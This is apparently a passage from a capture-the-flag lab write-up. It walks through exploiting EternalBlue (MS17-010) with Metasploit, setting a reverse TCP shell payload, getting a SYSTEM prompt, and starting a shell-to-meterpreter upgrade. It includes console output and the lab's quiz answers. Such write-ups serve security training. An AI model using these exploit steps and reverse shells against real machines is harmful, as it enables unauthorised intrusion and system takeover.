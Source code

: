 ```bash [metasploit]
[+] 10.10.72.117:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.72.117:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=

C:\Windows\system32>
```
1.Start Metasploit
>>No answer needed

2.Find the exploitation code we will run against the machine. What is the full path of the code? (Ex: exploit/........)
>>exploit/windows/smb/ms17_010_eternalblue

3.Show options and set the one required value. What is the name of this value? (All caps for submission)
>>Rhosts

Usually it would be fine to run this exploit as is; however, for the sake of learning, you should do one more thing before exploiting the target. Enter the following command and press enter:

set payload windows/x64/shell/reverse_tcp

4.With that done, run the exploit!
>>No answer needed

5.Confirm that the exploit has run correctly. You may have to press enter for the DOS shell to appear. Background this shell (CTRL + Z). If this failed, you may have to reboot the target VM. Try running it again before a reboot of the target. 
>>No answer needed

----

# Task 3 Escalate
----

>>Escalate privileges, learn how to upgrade shells in metasploit.
Answer the questions below

```bash
C:\Windows\system32>^Z
Background session 1? [y/N] y

msf5 exploit(windows/smb/ms17_010_eternalblue) > search shell_to_meterpreter

Matching Modules
================

   #  Name                                    Disclosure Date  Rank    Check  Description
   -  ----                                    ---------------  ----    -----  -----------
   0  post/multi/manage/shell_to_meterpreter                   normal  No     Shell to Meterpreter Upgrade

msf5 exploit(windows/smb/ms17_010_eternalblue) > use post/multi/manage/shell_to_meterpreter 
msf5 post(multi/manage/shell_to_meterpreter) > sessions -l

Active sessions
===============

  Id  Name  Type               Information                                                                       Connection
  --  ----  ----               -----------                                                                       ----------
  1         shell x64/windows  Microsoft Windows [Version 6.1.7601] Copyright (c) 2009 Microsoft Corporation...  10.10.179.6:4444 -> 10.10.72.117:49191 (10.10.72.117)
 
msf5 post(multi/manage/shell_to_meterpreter) > show options

```